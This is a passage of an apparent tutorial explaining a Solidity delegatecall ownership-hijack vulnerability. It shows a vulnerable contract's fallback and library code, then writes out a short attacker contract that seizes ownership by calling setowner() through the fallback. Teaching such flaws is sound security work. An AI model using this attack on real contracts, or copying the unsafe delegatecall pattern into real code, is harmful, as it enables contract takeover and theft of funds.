 The contract sets the owner state variable inside of the constructor. It also contains a fallback function. Let’s have a look at the fallback function.

```solidity
 fallback() external payable {
        address(lib).delegatecall(msg.data); //delegatecalls to lib
    }
```

We can see here that the fallback function makes use of the `DelegatCall`. The fallback simply delegates the call to the state variable `lib`. Harmless, right? We’ll see about that. `lib` is another contract set inside the constructor. Let’s see this.

```solidity
constructor(Lib _lib) {
        owner = msg.sender; //owner variable
        lib = Lib(_lib); //lib is another contract set inside the constructor
    }
```

What does the contract, `lib` do? Let’s take a look.

```solidity
contract Lib {
    address public owner;

    function setowner() public {
        owner = msg.sender;
    }
}
```

From the above code, we can see that the contract `lib` declares a single state variable called `owner`. It also defines a single function called `setowner`. which assigns the value of the `owner` to `msg.sender`. Pretty easy, right?

### How can the owner of the `Vulnerable` contract be changed?

To hijack the `Vulnerable` contract or change its owner, we have to update the `owner` state variable to the hijacker's address. To do this, we must find a way to interact with the `Vulnerable` contract at all costs. This can be achieved by invoking the `fallback` function.

`Fallback` functions are invoked when a function that doesn’t exist inside a particular contract is called.

So, all we have to do is call a function that isn’t within the `Vulnerable` contract.

Let us create a new contract and call it `AttackVulnerable`.

```solidity
contract AttackVulnerable {
    address public vulnerable;

    constructor(address _vulnerable) {
        vulnerable = _vulnerable;
    }

    function attack() public {
        vulnerable.call(abi.encodeWithSignature("setowner()"));
    }
}
```
